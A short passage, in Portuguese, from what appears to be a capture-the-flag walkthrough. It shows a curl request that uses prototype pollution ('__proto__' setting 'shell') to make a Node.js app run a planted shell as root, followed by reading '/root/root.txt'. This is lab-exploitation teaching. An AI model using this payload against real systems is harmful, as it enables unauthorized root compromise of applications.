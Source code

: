 Agora podemos sobrescrever o atributo "**shell**" da função "**exec**" para "**/home/victor/fakeshell**" através do prototype pollution:

```
curl -X POST -H "Content-type: application/json" -H "x-access-token: TOKENJWT" http://localhost:3000/admin/messages/send -d '{"text":"pwning","__proto__":{"shell":"/home/victor/fakeshell"}}'
```

<figure><img src="./assets/61.png" alt=""><figcaption></figcaption></figure>

Ao enviar a payload, conseguimos shell no usuário root:

```
cat /root/root.txt
```

<figure><img src="./assets/62.png" alt=""><figcaption></figcaption></figure>
